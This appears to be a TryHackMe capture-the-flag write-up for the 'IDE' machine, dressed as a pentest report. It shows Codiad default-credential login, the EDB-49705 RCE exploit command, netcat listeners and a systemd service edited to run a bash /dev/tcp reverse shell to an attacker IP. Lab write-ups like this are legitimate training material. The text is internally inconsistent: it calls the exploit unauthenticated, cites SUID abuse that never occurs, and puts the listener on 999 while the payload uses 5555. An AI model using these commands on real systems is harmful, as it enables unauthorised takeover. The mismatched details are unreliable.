# Offensive Security Assessment Report: IDE


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **IDE** hosted on **TryHackMe**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Web Application Exploitation / Default Credentials
* **Privilege Escalation Vector:** Abuse of SUID Binaries / Sudo Misconfiguration
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | IDE |
| **Platform** | TryHackMe |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | CVE-2018-14009 |
| **Initial Foothold Vector** | Web Application Exploitation / Default Credentials |
| **Privilege Escalation Vector** | Abuse of SUID Binaries / Sudo Misconfiguration |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Web Application Exploitation / Default Credentials
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Abuse of SUID Binaries / Sudo Misconfiguration
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

**Difficulty: ** Media

**Objetivo:** Obtener acceso inicial a través de una aplicación web vulnerable (Codiad IDE), escalar privilegios a un usuario local y luego a root.

## 🔍 Enumeración

### Nmap

Ejecutamos un escaneo completo:

```bash
bash
CopiarEditar
nmap -sV -sC -A -p- 10.10.99.124

```

Se detectaron los siguientes servicios:

- `21/tcp` - **FTP** (vsFTPd 3.0.3) → Permite login anónimo
- `22/tcp` - **SSH** (OpenSSH 7.6p1)
- `80/tcp` - **HTTP** (Apache 2.4.29)
- `62337/tcp` - **HTTP** (Codiad IDE 2.8.4)



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


## 🌐 Enumeración Web

La aplicación Codiad 2.8.4 corre en el puerto 62337.

```bash
bash
CopiarEditar
http://10.10.99.124:62337

```

Con `gobuster` descubrimos directorios como `/components`, `/workspace`, etc., pero todos están protegidos o no listan contenido útil directo.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


## 📂 Enumeración FTP

Se permite login anónimo. Al conectarnos descubrimos un archivo extraño llamado `-` dentro de un directorio oculto `...`.

```bash
bash
CopiarEditar
ftp 10.10.99.124

cd ...
get -

```

El archivo `-` se visualizó con:

```bash
bash
CopiarEditar
strings ./-

```



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


El contenido fue:

```
pgsql
CopiarEditar
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.

```

Esto revela dos usuarios (`john`, `drac`) y sugiere una contraseña por defecto.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


## 🔓 Acceso inicial (Login)

Utilizamos:

```
plaintext
CopiarEditar
username: john
password: password

```

¡Acceso exitoso!



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


## 💥 Explotación - RCE autenticado en Codiad (CVE-2018-14009)

Usamos el exploit EDB-49705, que permite ejecución remota de comandos (RCE) sobre Codiad autenticado.

```bash
bash
CopiarEditar
python3 49705.py http://10.10.99.124:62337/ john password 10.10.201.214 4444 linux

```



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> En paralelo, escuchamos conexiones reverse shell:
> 

```bash
bash
CopiarEditar
nc -lnvp 4444

```

Scan Outcome: **conexión recibida como `www-data`**.



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


## 🔼 Escalada de privilegios: de `www-data` a `drac`

Navegamos a `/home/drac/.bash_history` y Recovered cleartext credentials usadas con `mysql`:

```bash
bash
CopiarEditar
mysql -u drac -p'SuperSecurePassword123!'

```

La contraseña también servía para:

```bash
bash
CopiarEditar
su drac

```

Con esto accedimos como **usuario `drac`** y leímos `user.txt`.



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


## ⬆️ Escalada a root

Al ejecutar `sudo -l` como `drac`:

```bash
bash
CopiarEditar
(ALL : ALL) NOPASSWD: /usr/sbin/service vsftpd restart

```



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


El archivo `/lib/systemd/system/vsftpd.service` era modificable, por lo que lo editamos:

```bash
bash
CopiarEditar
[Service]
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.201.214/5555 0>&1"

```



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


> Luego lanzamos:
> 

```bash
bash
CopiarEditar
sudo systemctl daemon-reload
sudo /usr/sbin/service vsftpd restart

```



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


Y en otra terminal:

```bash
bash
CopiarEditar
nc -lnvp 999

```



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


## 📁 Flags

- ✅ **User flag**: Obtenido como `drac`
- ✅ **Root flag**: Obtenido tras abusar de `vsftpd.service`

---

## 🧠 Lecciones aprendidas

- El login anónimo en FTP puede ser crítico.
- Archivos con nombres poco comunes () pueden esconder pistas.
- Codiad 2.8.4 es vulnerable si no se actualiza.
- Servicios reiniciables por usuarios con `.service` editables son vectores comunes de escalada.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (CVE-2018-14009).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Web Application Exploitation / Default Credentials) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Abuse of SUID Binaries / Sudo Misconfiguration) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
